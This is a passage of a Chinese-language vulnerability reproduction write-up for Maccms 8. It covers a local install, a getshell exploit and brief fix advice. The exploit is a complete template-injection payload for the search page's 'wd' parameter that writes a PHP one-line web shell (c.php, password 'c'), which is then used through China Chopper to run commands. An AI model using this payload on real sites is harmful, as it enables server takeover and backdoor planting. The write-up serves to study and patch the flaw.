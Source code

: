 * 在Linux下直接安装Apache+Mysql+php环境，然后将源码导入到/var/www/html文件夹下。
* 启动Apache服务，在浏览器直接访问Maccms路径，进入安装页面。配置好CMS需要的环境

![maccms]({{ '/styles/images/maccms/10.png' | prepend: site.baseurl  }})

* 配置好数据连接，用户设置等，直接安装即可
* 访问http://localhost/maccms8/成功出现CMS首页。安装成功

### 4.3&emsp;漏洞复现（getshell） ###

1.访问Maccms网站，进入search页面。

2.利用Firefox浏览器发送POST数据包或直接用Python编写脚本进行发送POST数据包

3.构造一句话木马payload：

	wd={if-A:print(fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29)}{endif-A}

进行攻击，该payload是直接生成一个c.php一句话木马文件，连接密码为c。

![maccms]({{ '/styles/images/maccms/11.png' | prepend: site.baseurl  }})

4.菜刀或直接用Firefox连接一句话，执行命令。

![maccms]({{ '/styles/images/maccms/12.png' | prepend: site.baseurl  }})
## 5.&emsp;修复意见 ##

&emsp;&emsp;升级Maccms8.x到最新版本，或手动添加规则过滤非法字符。
